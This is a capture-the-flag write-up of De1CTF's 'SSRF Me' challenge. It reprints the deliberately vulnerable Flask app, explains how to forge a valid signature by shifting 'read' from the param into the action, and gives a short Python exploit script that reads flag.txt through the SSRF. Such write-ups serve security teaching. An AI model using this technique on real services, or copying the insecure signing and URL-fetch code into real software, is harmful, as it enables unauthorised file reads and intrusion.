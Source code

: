 # SSRF Me - Writeup 
##### By *sh4d0w58*

### Description:

>SSRF ME TO GET FLAG. [http://139.180.128.86/](http://139.180.128.86/)

### Solution:

On visiting [http://139.180.128.86/](http://139.180.128.86/) we are given the source code of the Flask App that we are interfacing with:

```python3
#! /usr/bin/env python 
#encoding=utf-8 
from flask import Flask 
from flask import request 
import socket 
import hashlib 
import urllib 
import sys 
import os 
import json 

reload(sys) 
sys.setdefaultencoding('latin1') 
app = Flask(__name__) 
secert_key = os.urandom(16) 

class Task: 
	def __init__(self, action, param, sign, ip): 
		self.action = action 
		self.param = param 
		self.sign = sign 
		self.sandbox = md5(ip) 
		if(not os.path.exists(self.sandbox)): 
			#SandBox For Remote_Addr 
			os.mkdir(self.sandbox) 

	def Exec(self): 
		result = {} 
		result['code'] = 500 
		if (self.checkSign()): 
			if "scan" in self.action: 
				tmpfile = open("./%s/result.txt" % self.sandbox, 'w') 
				resp = scan(self.param) 
				if (resp == "Connection Timeout"): 
					result['data'] = resp 
				else: 
					print resp 
					tmpfile.write(resp) 
					tmpfile.close()
					result['code'] = 200 
			if "read" in self.action: 
				f = open("./%s/result.txt" % self.sandbox, 'r') 
				result['code'] = 200 
				result['data'] = f.read() 
			if result['code'] == 500: 
				result['data'] = "Action Error" 
		else: 
			result['code'] = 500 
			result['msg'] = "Sign Error" 
		return result 

	def checkSign(self): 
		if (getSign(self.action, self.param) == self.sign): 
			return True 
		else: 
			return False 

#generate Sign For Action Scan. 
@app.route("/geneSign", methods=['GET', 'POST']) 
def geneSign(): 
	param = urllib.unquote(request.args.get("param", "")) 
	action = "scan" 
	return getSign(action, param) 

@app.route('/De1ta',methods=['GET','POST']) 
def challenge(): 
	action = urllib.unquote(request.cookies.get("action")) 
	param = urllib.unquote(request.args.get("param", "")) 
	sign = urllib.unquote(request.cookies.get("sign")) 
	ip = request.remote_addr 
	if(waf(param)): 
		return "No Hacker!!!!" 
	task = Task(action, param, sign, ip) 
	return json.dumps(task.Exec()) 

@app.route('/') 
def index(): 
	return open("code.txt","r").read() 

def scan(param): 
	socket.setdefaulttimeout(1) 
	try: 
		return urllib.urlopen(param).read()[:50] 
	except: 
		return "Connection Timeout" 

def getSign(action, param): 
	return hashlib.md5(secert_key + param + action).hexdigest() 

def md5(content): 
	return hashlib.md5(content).hexdigest()

def waf(param): 
	check=param.strip().lower() 
	if check.startswith("gopher") or check.startswith("file"): 
		return True 
	else: 
		return False 

if __name__ == '__main__': 
	app.debug = False 
	app.run(host='0.0.0.0',port=80)
```

Looking over it, we see that visiting `"/De1ta"` will execute the `challenge()` function and construct a new `Task` object with an `action`, `param`, and `sign` that we provide as cookies and a GET parameter. (Also our `ip` is passed to it). Then it will call the `Exec()` method of the object and return the json result.

```
task = Task(action, param, sign, ip) 
return json.dumps(task.Exec()) 
```

Inside `Exec()`, `checkSign()` is called. This function checks whether the `sign` value is the same as the value generated by `getSign()`. We have to pass this check to move on to the rest of `Exec()`.

```
def checkSign(self): 
		if (getSign(self.action, self.param) == self.sign): 
			return True 
		else: 
			return False
```

`getSign()` performs an md5 hash with `secret_key + param + action`. `secret_key` is a random value that is generated by the App, so we don't know it.

```
def getSign(action, param): 
	return hashlib.md5(secert_key + param + action).hexdigest() 
``` 

So now we need a way to generate a valid sign. Making a request to `/geneSign` will generate a `sign` value for us, however it will only allow us to pass it the `param` value and the `action` value will be set to `"scan"`.

```
@app.route("/geneSign", methods=['GET', 'POST']) 
def geneSign(): 
	param = urllib.unquote(request.args.get("param", "")) 
	action = "scan" 
	return getSign(action, param) 
```

Now that we can generate a valid `sign` value, we can pass the check and move on to the rest of `Exec()`. The first `if` case checks if `"scan"` is `in` `action`. Notice, it does not check whether `action == "scan"`, only whether it contains it. This will be important later. The `"scan"` action will make a request with the value of `param` and write it to a file.

```
if "scan" in self.action: 
	tmpfile = open("./%s/result.txt" % self.sandbox, 'w') 
	resp = scan(self.param) 
	if (resp == "Connection Timeout"): 
		result['data'] = resp 
	else: 
		print resp 
		tmpfile.write(resp) 
		tmpfile.close()
		result['code'] = 200 
```

The second `if` case performs the same check with `"read"`. This action will read the file that we just wrote the result of `"scan"` to.

```
if "read" in self.action: 
	f = open("./%s/result.txt" % self.sandbox, 'r') 
	result['code'] = 200 
	result['data'] = f.read() 
```

Going back to the `"scan"` case, we see the function `scan()` is called with our `param`. This function will use `urllib.urlopen()` to perform the request and this is where the SSRF vulnerability is.

```
def scan(param): 
	socket.setdefaulttimeout(1) 
	try: 
		return urllib.urlopen(param).read()[:50] 
	except: 
		return "Connection Timeout" 
```

To read local files we could use the `"file://"` protocol, however any `param` value that starts with `"file"` or `"gopher"` is blocked in the `challenge()` function. I believe there are multiple ways to get past this, but I noticed that starting `param` without a protocol would attempt to read files from the file system. The challenge hint says...

>flag is in ./flag.txt

This will allow us to read the flag into a file, but we will not be able to read it without a valid sign with the action **including** `"read"`. If we can generate a sign for the `action` as `"readscan"`, we can perform the scan and read the result in one go.

Notice, `geneSign()` will perform an md5 hash of `secret + param + action` so we can pass the value of `param` as `"flag.txtread"` (the value of `action` will be `"scan"`) and generate the *same* hash as if we pass `param` as `"flag.txt"` and `action` as `"readscan"`.

```"flag.txtread"+"scan" == "flag.txt"+"readscan"```

You could also use a length extension attack, but this way is more simple.

So our exploit is complete.

We get the flag `"de1ctf{27782fcffbb7d00309a93bc49b74ca26}"`

### Full Code:

```
import requests

def geneSign(param):
	return requests.get("http://139.180.128.86/geneSign?param="+param).text

realParam = "flag.txt"

param = realParam+"read"
sign = geneSign(param)
param = realParam

action = "readscan"

answer = requests.get("http://139.180.128.86/De1ta?param="+param, cookies={"action":action,"sign":sign}).text

print(answer)
```
